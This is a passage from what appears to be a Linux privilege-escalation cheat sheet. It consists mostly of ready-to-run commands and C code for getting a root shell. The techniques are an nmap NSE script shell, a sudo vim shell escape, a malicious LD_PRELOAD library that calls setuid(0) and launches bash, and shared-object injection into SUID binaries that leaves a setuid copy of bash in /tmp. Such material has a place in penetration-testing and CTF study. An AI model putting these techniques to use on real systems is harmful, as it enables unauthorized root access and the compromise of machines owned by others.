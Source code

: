 ```
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```

### Vim

```
sudo vim -c '!sh'
```

### LD\_PRELOAD

create file as malicious.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

compile and load

```
gcc -fPIC -shared -o /tmp/malicious.so malicious.c -nostartfiles
```

```
sudo LD_PRELOAD=/tmp/malicious.so apache2
```

#### Shared Object Injection

```
find / -type f -perm -04000 -ls 2>/dev/null
```

Run strace on SUIDs to find "foundso.so"

```
strace /usr/local/bin/SuidFromPreviousOutput 2>&1 | grep -i -E "open|access|no such file"
```

```
mkdir /home/user/.config
```

```
cd /home/user/.config
```

create foundso.c

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
